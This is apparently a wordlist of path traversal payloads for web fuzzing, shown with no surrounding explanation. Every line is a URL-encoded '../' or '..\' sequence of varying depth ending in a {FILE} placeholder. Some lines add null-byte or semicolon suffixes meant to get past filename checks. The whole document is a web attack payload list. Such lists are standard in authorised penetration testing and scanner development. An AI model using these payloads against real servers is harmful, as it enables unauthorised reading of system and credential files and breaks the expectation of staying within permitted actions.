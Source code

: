 ..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f{FILE}
..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f{FILE}%00index.html
..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f{FILE};index.html
..%2f..%2f..%2f..%2f..%2f..%2f..%2f{FILE}
..%2f..%2f..%2f..%2f..%2f..%2f..%2f{FILE}%00index.html
..%2f..%2f..%2f..%2f..%2f..%2f..%2f{FILE};index.html
..%2f..%2f..%2f..%2f..%2f..%2f{FILE}
..%2f..%2f..%2f..%2f..%2f..%2f{FILE}%00index.html
..%2f..%2f..%2f..%2f..%2f..%2f{FILE};index.html
..%2f..%2f..%2f..%2f..%2f{FILE}
..%2f..%2f..%2f..%2f..%2f{FILE}%00index.html
..%2f..%2f..%2f..%2f..%2f{FILE};index.html
..%2f..%2f..%2f..%2f{FILE}
..%2f..%2f..%2f..%2f{FILE}%00index.html
..%2f..%2f..%2f..%2f{FILE};index.html
..%2f..%2f..%2f{FILE}
..%2f..%2f..%2f{FILE}%00index.html
..%2f..%2f..%2f{FILE};index.html
..%2f..%2f{FILE}
..%2f..%2f{FILE}%00index.html
..%2f..%2f{FILE};index.html
..%2f{FILE}
..%2f{FILE}%00index.html
..%2f{FILE};index.html
..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c{FILE}
..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c{FILE}%00index.html
..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c{FILE};index.html
..%5c..%5c..%5c..%5c..%5c..%5c..%5c{FILE}
..%5c..%5c..%5c..%5c..%5c..%5c..%5c{FILE}%00index.html
..%5c..%5c..%5c..%5c..%5c..%5c..%5c{FILE};index.html
..%5c..%5c..%5c..%5c..%5c..%5c{FILE}
..%5c..%5c..%5c..%5c..%5c..%5c{FILE}%00index.html
..%5c..%5c..%5c..%5c..%5c..%5c{FILE};index.html
..%5c..%5c..%5c..%5c..%5c{FILE}
..%5c..%5c..%5c..%5c..%5c{FILE}%00index.html
..%5c..%5c..%5c..%5c..%5c{FILE};index.html
..%5c..%5c..%5c..%5c{FILE}
..%5c..%5c..%5c..%5c{FILE}%00index.html
..%5c..%5c..%5c..%5c{FILE};index.html
..%5c..%5c..%5c{FILE}
..%5c..%5c..%5c{FILE}%00index.html
..%5c..%5c..%5c{FILE};index.html
..%5c..%5c{FILE}
..%5c..%5c{FILE}%00index.html
..%5c..%5c{FILE};index.html
..%5c{FILE}%00index.html
..%5c{FILE};index.html
